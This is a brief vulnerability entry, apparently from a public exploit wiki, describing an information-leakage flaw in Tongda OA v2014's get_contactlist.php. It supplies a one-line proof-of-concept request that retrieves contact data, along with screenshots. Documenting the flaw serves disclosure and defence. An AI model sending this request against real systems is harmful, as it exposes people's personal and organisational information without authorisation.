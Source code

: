 # Tongda OA v2014 get_contactlist.php sensitive information leakage vulnerability

## Vulnerability Description

There is an information leakage vulnerability in Tongda OA v2014 get_contactlist.php file. The attacker can obtain sensitive information through the vulnerability and further attack.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Tongda OA v2014</span>

## Network surveying and mapping



## Vulnerability reappears

Version information

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645975969411-bebd5aae-61d9-427d-bde9-bc31c1375ec3.png)

Verify POC

```javascript
/mobile/inc/get_contactlist.php?P=1&KWORD=%25&isuser_info=3
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645975996620-255bce78-f9e5-4542-a2cc-4ba7b35fb50e.png)